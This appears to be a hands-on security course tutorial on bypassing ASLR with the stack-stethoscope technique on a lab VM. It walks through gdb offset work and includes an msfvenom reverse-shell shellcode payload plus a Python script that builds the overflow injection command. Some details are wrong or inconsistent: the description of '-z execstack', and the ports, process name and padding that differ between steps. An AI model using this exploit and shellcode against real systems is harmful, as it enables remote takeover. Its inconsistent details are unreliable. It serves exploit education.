



Tutorial:  ByPassing ASLR - Stack Stethoscope
=============================================

Introduction
------------

Download the sale Metasploitable VM from the tutorial "NFS -
Metasploitable". This time we will try to bypass ASLR with **stack
stethoscope technique**. So for this exercise, we will have the file
compiled with :

-  The ``-g`` indicates that the compiled files contains all information
   for debugging with ``gdb``

-  The ``-fno-stack-protector`` indicates that no stack protection are
   present

-  The ``-z execstack`` forces gcc to compile code with non-executable
   instruction on the stack

We also activate randomization of the memory in the admin session:

.. code:: bash

   sudo cat /proc/sys/kernel/randomize_va_space 
   2

============ ============
**username** **password**
============ ============
user         none
============ ============

Exercise
--------

| As you know, ASLR break the possibility to guess address of the buffer
  in order to smash it. To counter it, the stack stethoscope use the
  fact that even if the address change from execution to execution, the
  offset between the vulnerable buffer and the bottom of the stack
  doesn’t. [1]_
| Since we need the PID of the program, we need to run program. We
  decide to exploit the ``vuln.c`` program that wait for a connection on
  port 31338 on localhost and then print the received message. . [2]_
| Since it only show the address of the bottom of the stack if we are
  proprietary of the file, we need change the permission of file such
  that the user execute it:

.. code:: bash

   user@kali:/StackStethoscope$ chmod 755 $FOLDER/vuln

❓ **Try** Now from the PID the program, try to find the address of the bottom of
the stack. For that you should remember where you can find such
information/statistics about a processus.

.. hint:: **💡 Try to find in** ``/proc/<pid>/stat`` **file**

.. raw:: html

   

          

                

.. code:: bash

   user@kali:/StackStethoscope$ ./vuln & #program now run in backgroud
   [1] 8833   #PID
   user@kali:/StackStethoscope$ cat /proc/8833/stat | cut -d ' ' -f 28
   3219921008  #0xBFEC1870

.. raw:: html

   

   

   

❓ **Try** Since we have the address, we need to compute the "offset" that we
  were talking before between the bottom of the stack and the buffer
  which does not change even with ASLR !
| For that, ``attach`` yourself to the ``vuln`` program with ``gdb`` and
  inspect the memory and compute the offset.

.. hint:: **💡 Try to print the address of the variable** ``buf``.

.. raw:: html

   

          

                

.. code:: bash

   (gdb) attach 8833
   Attaching to process 8833
   Reading symbols from /vuln...
   Reading symbols from /lib/i386-linux-gnu/libc.so.6...
   Reading symbols from /usr/lib/debug/.build-id/34/28727ebe1186a5bb31dfd31dd075089b46a016.debug...
   Reading symbols from /lib/ld-linux.so.2...
   Reading symbols from /usr/lib/debug/.build-id/e4/a96c6cb9e64fe15d6a3c20fcb7abea16c0b001.debug...
   0xb7fb5a9d in __kernel_vsyscall ()
   (gdb) x/li 0x004b535e
      0x4b535e <main+325>: call   0x4b5030 <read@plt>
   (gdb) break *main+325
   Breakpoint 1 at 0x4b535e: file vuln.c, line 42.

   ...

   user@kali:/ perl -e 'print "A" x 320' | nc localhost 31338 #trigger execution in gdb

   ...
   (gdb) p &buf
   $2 = (char (*) 1024) 0xbfec1390

Now we can compute the **offset**:
  ``0xBFEC1870 - 0xbfec1390 = 0x4E0``.

.. raw:: html

   

   

   

❓ **Try** Now we need a shellcode to inject. A good one for this case would be
   the reverse shell. Try to produce your own shell code or use tools
   such as ``msfvenom`` for that.

.. raw:: html

   

          

            

.. code:: bash

   msfvenom --platform linux --bad-chars '\x00' '\xff' '\xe7' '\x5b' '\xa0' '\x0d' '\x20'  --payload linux/x86/shell_reverse_tcp 
       LHOST=127.0.0.1 LPORT=9001 -f c

   Found 11 compatible encoders
   Attempting to encode payload with 1 iteration of x86/shikata_ga_nai
   x86/shikata_ga_nai succeeded with size 95 (iteration=0)
   x86/shikata_ga_nai chosen with final size 95
   Payload size: 95 bytes
   Final size of c file: 425 bytes
   unsigned char buf[] = 
   "\xba\x1c\x1d\x2d\x9c\xdb\xd9\xd9\x74\x24\xf4\x5e\x33\xc9\xb1\x12\x31\x56\x12\x03\x56"
   "\x12\x83\xda\x19\xcf\x69\xd3\xfa\xf8\x71\x40\xbe\x55\x1c\x64\xc9\xbb\x50\x0e\x04\xbb"
   "\x02\x97\x26\x83\xe9\xa7\x0e\x85\x08\xcf\xef\x75\xeb\x0e\x78\x74\xeb\x33\x51\xf1\x0a"
   "\x83\xc7\x51\x9c\xb0\xb4\x51\x97\xd7\x76\xd5\xf5\x7f\xe7\xf9\x8a\x17\x9f\x2a\x42"
   "\x85\x36\xbc\x7f\x1b\x9a\x37\x9e\x2b\x17\x85\xe1";

.. raw:: html

   

   

   

❓ **Try** Now that we have the offset, create a program that automatically compute
the address of the buffer and inject that shellcode. For that there are
many ways. You can create a program to do that, or if not possible at
least generate the command for you, or also possible write the command
by hand.

.. raw:: html

   

          

        

.. code:: python

   def main():
       shell_code     = "\\xba\\x1c\\x1d\\x2d\\x9c\\xdb\\xd9\\xd9\\x74\\x24\\xf4\\x5e\\x33" +\
                        "\\xc9\\xb1\\x12\\x31\\x56\\x12\\x03\\x56\\x12\\x83\\xda\\x19\\xcf\\x69" +\
                        "\\xd3\\xfa\\xf8\\x71\\x40\\xbe\\x55\\x1c\\x64\\xc9\\xbb\\x50\\x0e\\x04" +\
                        "\\xbb\\x02\\x97\\x26\\x83\\xe9\\xa7\\x0e\\x85\\x08\\xcf\\xef\\x75\\xeb" +\
                        "\\x0e\\x78\\x74\\xeb\\x33\\x51\\xf1\\x0a\\x83\\xc7\\x51\\x9c\\xb0\\xb4" +\
                        "\\x51\\x97\\xd7\\x76\\xd5\\xf5\\x7f\\xe7\\xf9\\x8a\\x17\\x9f\\x2a\\x42" +\
                        "\\x85\\x36\\xbc\\x7f\\x1b\\x9a\\x37\\x9e\\x2b\\x17\\x85\\xe1" 
       padding        = 173
       pid            = subprocess.check_output(['pidof', '-s', 'echo-server']).rstrip()
       path           ='/proc/'+pid+'/stat'
       stat           = subprocess.check_output(['cat',path])
       print(stat)
       address_bottom = int(stat.split(' ')[27])
       print(address_bottom)
       offset         = int(0x4E0)
       buf_addr       = address_bottom - offset
       buf_addr       = hex(buf_addr).rstrip("L")
       buf_addr       = parse_address(buf_addr) #Only trasnform hex address to \x byte address
       print(buf_addr)
       payload        = "A" * padding +"\" . \"" + shell_code +"\" . \"" + buf_addr 
       perl_command   = 'cat <(perl -e \'print \"'+payload+"\"\'"
       nc_command     = ") - | nc localhost 9000"
       print(perl_command + nc_command) #Only print command since os.system seems to bug with '('
       
   main()

And we finally manage to open a reverse shell !

.. raw:: html

    

.. raw:: html

    

.. raw:: html

   

   

   

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

.. [1]
   https://pdfs.semanticscholar.org/440e/61ecb744e55d0425cdb648fe24e4ff999686.pdf

.. [2]
   https://www.exploit-db.com/papers/13232
